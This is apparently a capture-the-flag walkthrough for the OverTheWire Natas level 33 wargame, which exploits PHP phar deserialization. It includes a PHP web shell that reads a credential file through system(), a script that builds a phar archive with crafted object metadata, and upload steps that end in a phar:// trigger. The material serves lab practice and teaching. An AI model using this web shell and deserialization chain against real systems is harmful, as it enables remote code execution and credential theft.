# 🕸️Natas Level 33 → Level 34

```
http://natas33.natas.labs.overthewire.org
```
Username: natas33  
Password: (natas33_password)



take a look at the source code




### Step 1: Building the PHP script

creating the `n33_shell.php` file
```
<?php echo system("cat /etc/natas_webpass/natas34"); ?>
```


Creating the `n33_gen.php` file
```
<?php

class Executor{
    private $filename="n33_shell.php";
    private $signature=True;
    private $init=False;
}

$phar = new Phar('n33_phar.phar');
$phar->startBuffering();
$phar->addFromString('test.txt','text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$object = new Executor();
$object->data = 'rips';

$phar->setMetadata($object);
$phar->stopBuffering();

?>
```


### Step 2: Generate the PHAR file

Make sure PHP is installed on your machine, then run this command.
```
php -d phar.readonly=false n33_gen.php
```



### Step 3: Upload the files

First, select the `n33_shell.php` file, but don’t click Upload yet.



Inspect the page, then update the value field to `n33_shell.php`, and then click Upload.



You should see a message indicating the file was uploaded to: ``/natas33/upload/n33_shell.php``



Perform the same steps again, this time with the `n33_phar.phar` file.



You should see a message indicating the file was uploaded to: ``/natas33/upload/n33_phar.phar``



This time, inspect the page without selecting any file to upload.



Next, update the value field with the command shown below, then click Upload.
```
phar://n33_phar.phar/test.txt
```



If you followed the steps correctly, the flag should be displayed.



### 📖 Useful Resource For Clearer Understanding
**It's a PHP Unserialization Vulnerability Jim, but Not as We Know It** by Sam Thomas on Blackhat USA 2018
```
### It's a PHP Unserialization Vulnerability Jim, but Not as We Know It (youtube video)
https://youtu.be/OrEar0TiS90
### Presentation Slide on Blackhat (pdf version)
https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf
```

Awesome! You can use this flag to access the next round.
